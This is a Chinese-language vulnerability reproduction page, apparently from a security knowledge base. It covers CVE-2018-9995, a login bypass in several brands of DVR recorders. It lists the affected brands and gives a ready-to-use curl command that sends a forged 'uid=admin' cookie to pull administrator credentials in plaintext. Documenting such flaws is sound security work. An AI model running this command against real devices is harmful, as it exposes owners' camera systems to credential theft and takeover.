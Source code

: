 ```yaml
---
title: DVR 登录绕过漏洞 CVE-2018-9995
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - DVR
---
```


# DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

> [!NOTE]
>
> Novo
>
> CeNova
>
> QSee
>
> Pulnix
>
> XVR 5 in 1 (title: "XVR Login")
>
> Securus, - Security. Never Compromise !! -
>
> Night OWL
>
> DVR Login
>
> HVR Login
>
> MDVR Login

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![](/img/20210924015252345268.png)